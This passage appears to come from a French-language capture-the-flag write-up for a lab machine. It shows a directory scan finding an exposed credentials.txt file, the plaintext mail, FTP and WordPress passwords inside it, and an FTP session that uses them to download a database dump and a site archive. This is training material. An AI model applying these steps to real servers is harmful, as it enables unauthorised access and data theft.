 ~~~
+ http://10.10.10.187/admin-dir/contacts.txt (CODE:200|SIZE:350)                      
+ http://10.10.10.187/admin-dir/credentials.txt (CODE:200|SIZE:136) 
~~~

On visite http://10.10.10.187/admin-dir/credentials.txt

~~~
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
~~~

root@Host-001:~/Téléchargements# ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x---    2 0        111          4096 Dec 03 21:21 .
drwxr-x---    2 0        111          4096 Dec 03 21:21 ..
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
226 Directory send OK.
ftp> pwd
257 "/" is the current directory
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (3.6527 MB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 5.57 secs (923.9123 kB/s)
ftp> bye
221 Goodbye.
root@Host-001:~/Téléchargements# 
~~~

html.tar.gz

~~~